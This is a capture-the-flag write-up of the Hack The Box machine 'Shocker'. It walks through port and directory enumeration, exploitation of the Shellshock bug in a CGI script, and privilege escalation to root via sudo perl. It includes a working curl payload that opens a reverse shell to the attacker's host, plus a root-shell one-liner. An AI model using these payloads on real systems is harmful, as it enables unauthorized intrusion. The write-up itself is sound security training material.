 # HTB - Shocker

#### Ip: 10.10.10.56
#### Name: Shocker
#### Rating: Easy

----------------------------------------------------------------------

Shocker.png

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 09:07 CDT
Nmap scan report for 10.10.10.56
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 7.12 seconds
```

Lets further enumerate the open ports by scanning with the `-sV` and `-sC` flags to enumerate versions and to use default scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ sudo nmap -sC -sV -T4 10.10.10.56 -p 80,2222              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 09:08 CDT
Nmap scan report for 10.10.10.56
Host is up (0.066s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.97 seconds
```

Ok, looks like the classic http/ssh combo found on many Linux CTFs. Navigating to the website, we see just a simple static page:

site.png

Lets kick off some directory enumeration to see if we can find any interesting sub-directories:

```text
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Gobuster doesn't find anything useful for us. But if I include the `-f` flag to append the last `/` character, we find there is in fact a /cgi-bin/ directory.

gobuster_flag.png

Interestingly, navigating to http://10.10.10.56/cgi-bin we get a 404 Not Found error (hence our initial Gobuster scan not finding anything, but visiting http://10.10.10.56/cgi-bin/ gives us a 403 Forbidden message. 

Lets continue digging into the /cgi-bin directory:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x cgi,sh,php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              sh,php,cgi
[+] Timeout:                 10s
===============================================================
2023/05/05 09:35:42 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
```

Ok cool, now with a name like Shocker, and finding a cgi-bin directory, my first though is to obviously try exploiting the ShellShock vulnerability. If not familiar, ExploitDB has a nice succinct article on the exploit: https://www.exploit-db.com/docs/english/48112-the-shellshock-attack-%5Bpaper%5D.pdf?utm_source=dlvr.it&utm_medium=twitter

### Exploitation

There are a few ways to exploit this vulnerability, but today I'm going to just use bash from my terminal. Setting up a netcat listener on port 443 all I need to do is execute:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ curl -H "user-agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.7/443 0>&1" \http://10.10.10.56/cgi-bin/user.sh
```
And I will catch a shell back as user Shelly (ha!):

shelly_shell.png

and grab the user.txt flag:

user_flag.png

### Privilege Escalation

First thing I like to do once I have initial access on a Linux machine is to run `sudo -l` to list out anything I may be able to run with elevated/ root permissions. It takes no time at all, and can often lead to an easy win.

Today is no different; running `sudo -l` I see I can run `/usr/bin/perl` commands with root permissions:

sudo.png

For situations like this https://gtfobins.github.io/ is where you want to be. This site is an amazing resource for pentesters/hackers and is extremely user friendly.

In this specific case, all I need to do is search for 'perl' in the search bar, and I am presented with results I can literally copy/paste onto the target to elevate my shell to root:

gtfo_bins.png

```text
shelly@Shocker:/home/shelly$     sudo perl -e 'exec "/bin/sh";'
```
This command uses Perl to launch bin/bash and from there all that is left to do is grab the final flag:

root_flag.png

And that's that! Thanks for following along!

-Ryan

-----------------------------------------------------------------------------------------